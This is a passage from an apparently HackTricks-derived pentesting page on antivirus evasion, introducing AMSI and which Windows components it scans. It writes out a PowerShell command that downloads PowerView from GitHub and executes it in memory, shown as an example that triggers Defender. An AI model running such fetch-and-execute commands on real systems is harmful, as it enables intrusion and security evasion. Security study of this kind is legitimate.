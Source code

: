 <figure><img src="../.gitbook/assets/freeze_demo_hacktricks.gif" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Evasion is just a cat & mouse game, what works today could be detected tomorrow, so never rely on only one tool, if possible, try chaining multiple evasion techniques.
{% endhint %}

## AMSI (Anti-Malware Scan Interface)

AMSI was created to prevent "[fileless malware](https://en.wikipedia.org/wiki/Fileless\_malware)". Initially, AVs were only capable of scanning **files on disk**, so if you could somehow execute payloads **directly in-memory**, the AV couldn't do anything to prevent it, as it didn't have enough visibility.

The AMSI feature is integrated into these components of Windows.

* User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
* PowerShell (scripts, interactive use, and dynamic code evaluation)
* Windows Script Host (wscript.exe and cscript.exe)
* JavaScript and VBScript
* Office VBA macros

It allows antivirus solutions to inspect script behavior by exposing script contents in a form that is both unencrypted and unobfuscated.

Running `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` will produce the following alert on Windows Defender.

<figure><img src="../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>
